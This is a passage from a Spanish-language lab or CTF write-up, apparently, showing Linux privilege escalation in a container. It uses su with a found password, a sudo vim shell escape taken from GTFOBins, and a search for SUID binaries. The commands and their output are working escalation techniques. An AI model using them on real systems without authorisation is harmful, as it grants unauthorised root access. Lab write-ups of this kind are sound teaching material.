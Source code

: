 Obtenemos una clave y la probamos con `su root`:

```bash
russoski@28c41160317a:~$ su root
Password:
root@28c41160317a:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Comprobamos con `id` que somos **root**

# Escalada de privilegios 2

La segunda manera es ejecutar `sudo -l` para ver que comandos puede ejecutar como **root** en el sistema.

```bash
russoski@28c41160317a:~$ sudo -l
Matching Defaults entries for russoski on 28c41160317a:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User russoski may run the following commands on 28c41160317a:
    (root) NOPASSWD: /usr/bin/vim
```

Como vemos puede ejecutar `vim` como **root**. Vamos a la famosa web de *GTFOBins* y encontramos la manera de escalar privilegios con *vim* [GTFOBins vim](https://gtfobins.github.io/gtfobins/vim/#sudo). Ejecutamos y comprobamos que somos **root**.

```bash
russoski@28c41160317a:~$ sudo vim -c ':!/bin/sh'

# whoami
root
#
```

# Escalada de privilegios 3

Para finalizar vamos a ver la tercera forma. Esta vez buscamos binarios que tengan el permiso **SUID** activo. Usamos `find` y le indicamos que busque desde la raiz `/`, ficheros `-type f`, que tengan el permiso +s `-perm -4000` y que mande los errores a *null* con `2>/dev/null`:

```bash
russoski@28c41160317a:~$ find / -type f -perm -4000 2>/dev/null
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/env
/usr/bin/mount
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

